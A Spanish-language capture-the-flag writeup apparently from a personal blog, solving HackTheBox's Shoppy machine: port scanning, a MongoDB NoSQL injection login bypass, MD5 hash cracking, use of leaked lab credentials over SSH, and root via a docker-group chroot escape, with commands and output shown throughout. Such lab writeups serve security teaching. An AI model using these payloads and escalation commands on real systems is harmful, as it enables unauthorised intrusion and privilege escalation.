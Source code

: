 ```yaml
---
title: Shoppy WriteUp
author: H4ckerLite 
date: 2023-01-14 00:00:00 +0800
categories: [hackthebox, machine, writeup]
tags: [hackthebox, writeup]
pin: pin
image:
  path: ../../assets/img/commons/shoppy-writeup/Shoppy.png 
  alt: Shoppy WriteUp
---
```


Les explicaré comó comprometer la máquina [Shoppy](https://app.hackthebox.com/machines/496) de HackTheBox. En esta máquina nos enfretaremos a un `NoSQLi` de `MongoDB` y ganaremos acceso al sistema gracias a una contraseña filtrada y para la escalada nos vamos a aprovechar del grupo **Docker**.

## Escaneo NMAP

Antes de empezar les recomiendo hacer un escaneo para saber que puertos estan abiertos y que servicios corren por ellos, ya que esta información nos sera util para continuar con la prueba de penetración.

``````bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.180 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-15 11:59 -04
Initiating SYN Stealth Scan at 11:59
Scanning 10.10.11.180 [65535 ports]
Discovered open port 80/tcp on 10.10.11.180
Discovered open port 22/tcp on 10.10.11.180
Discovered open port 9093/tcp on 10.10.11.180
Completed SYN Stealth Scan at 12:00, 15.14s elapsed (65535 total ports)
Nmap scan report for 10.10.11.180
Host is up, received user-set (0.16s latency).
Scanned at 2023-01-15 11:59:53 -04 for 16s
Not shown: 65368 closed tcp ports (reset), 164 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
9093/tcp open  copycat syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.33 seconds
           Raw packets sent: 74269 (3.268MB) | Rcvd: 73540 (2.942MB)
``````


Nos percatamos que tiene el **SSH** abierto y el puerto 80 que corresponde al **HTTP**, al entrar a la web no vemos nada, ya que se esta aplicando virtual hosting, para solucionarlo hacemos lo siguiente:

```bash
echo "10.10.11.180       shoppy.htb" | tee -a /etc/hosts
```

Ahora debemos ver una web con una cuenta regresiva, nada importante

## Enumeración

Enumerando directorios con **WFUZZ** nos encontramos lo siguiente.
***Nota: Debes tener clonado el repositorio de*** **SecList**
```bash
❯ wfuzz -c --hc=404 -t 50 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://shoppy.htb/FUZZ  2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000053:   200        25 L     62 W       1074 Ch     "login"                                                                                                                
000000016:   301        10 L     16 W       179 Ch      "images"                                                                                                               
000000291:   301        10 L     16 W       179 Ch      "assets"                                                                                                               
000000259:   302        0 L      4 W        28 Ch       "admin"   
```
Nos encontramos con **/login** , intentamos acceder pero esta protegido por un login, podemos probar con una injección **SQL** y ver si es vulnerable a este tipo de ataque.

![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login.png' | relative_url }}){: .center-image }
_Login Shoppy_

Introducimos una comilla al final del usuario para ver si la query de la consulta es vulnerable a SQL injection, notamos que el servidor se demora en responder, por lo que confirmamos que es vulnerble.

![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login3.png' | relative_url }}){: .center-image }
_Login Shoppy_
Podemos seguir probando tipicas SQL injection, pero al final ninguna funcionará.
```bash
'
'-- -
' or '1'='1
' or '1'='1'-- -
```
Pero vemos que ninguna funciona, eso nos da una pista que debemos probar con una injección NoSQL, una base de las bases de datos mas usadas son **MongoDB**, buscando payloads en **Google** encontramos estos blogs [MongoDB SQL injection](https://nullsweep.com/a-nosql-injection-primer-with-mongo/) y  este otro blog [No SQl injection](https://nullsweep.com/nosql-injection-cheatsheet/).

Podemos probar `admin'||'1==1` y poner cualquier contraseña:

![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login1.png' | relative_url }}){: .center-image }
_Bypass Login_

Bingo!!! Ganamos acceso como administrador, en el buscador podemos repetir la injección.
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login2.png' | relative_url }}){: .center-image }

Nos sale una opción para descargar un archivo `JSON`, cuando vemos el archivo vemos 2 usuarios y sus respectivos hashes. Creamos un archivo con los hashes y lo intentaremos crakear con john

```bash
echo "admin:23c6877d9e2b564ef8b32c3a23de27b2" > hashes
echo "josh:6ebcea65320589ca4f2f1ce039975995" >> hashes
❯ john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (josh)
1g 0:00:00:02 DONE (2023-01-15 12:44) 0.4444g/s 6374Kp/s 6374Kc/s 6735KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

```
Tenemos una contraseña, podemos buscar por subdominios a ver que nos encontramos

```bash
❯ gobuster vhost  -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb/ -t 200
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb/
[+] Method:       GET
[+] Threads:      200
[+] Wordlist:     /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/15 12:48:41 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
Progress: 52985 / 100001 (52.98%)    
```

Tenemos un subdominio, la misma historia lo añadimos en el `/etc/hosts`.

Al entrar en el web nos encontramos con esto
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/josh.png' | relative_url }}){: .center-image }
_Login Mattermost_

Viendo las conversaciones nos dan un usuario y sus credenciales para el *SSH*, nos conectamos.
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/matt.png' | relative_url }}){: .center-image }
_Information leaked_

```bash
❯ ssh jaeger@10.10.11.180
jaeger@10.10.11.180's password: Sh0ppyBest@pp!
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jan 15 11:02:26 2023 from 10.10.14.26
manpath: can't set the locale; make sure $LC_* and $LANG are correct
jaeger@shoppy:~$ export TERM=xterm
jaeger@shoppy:~$ 
```
Una vez dentro podemos ver si tenemos algún privilegio asignado a sudo, vemos que podemos ejecutar como el usuario `deploy` un ejecutable.

## Enumeración del sistema

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: Sh0ppyBest@pp!
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$ 

```
Intentamos ejecutar el comando
```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/passw*
Welcome to Josh password manager!
Please enter your master password: Password
Access denied! This incident will be reported !
jaeger@shoppy:~$ 
```
La contraseña no es correcta, jugando con `XXD` podemos ver que la contraseña se filtra, bingo ya descubrimos la contraseña, ahora lo ejecutamos como el usuario deploy


![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/xxd.png' | relative_url }}){: .center-image }
_Password-Manager_


```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:~$ 
```
Podemos migrar al usuario *Deploy* .

```bash
jaeger@shoppy:~$ su deploy
Password: Deploying@pp!
$ bash
deploy@shoppy:/home/jaeger$ 
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:/home/jaeger$ 

 ```

## Escalada de privilegios
Pertenecemos al grupo `docker`  mirando [GtfObins](https://gtfobins.github.io/gtfobins/docker/#shell) podemos ver que podemos abusar del grupo **docker**
Ejecutamos el comando nos da una shell como root.

 ```bash
 deploy@shoppy:/home/jaeger$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
root@3ea87a82734f:/# 
 ```
Ganamos acceso root, ya rooteamos la máquina ahora podemos leer las  flags respectivas para cada usuario.

```bash
root@3ea87a82734f:~# cat root.txt 
3d4c1a0477********************66
root@3ea87a82734f:~# cat /home/jaeger/user.txt 
3d97fe0060********************67
root@3ea87a82734f:~# 
```
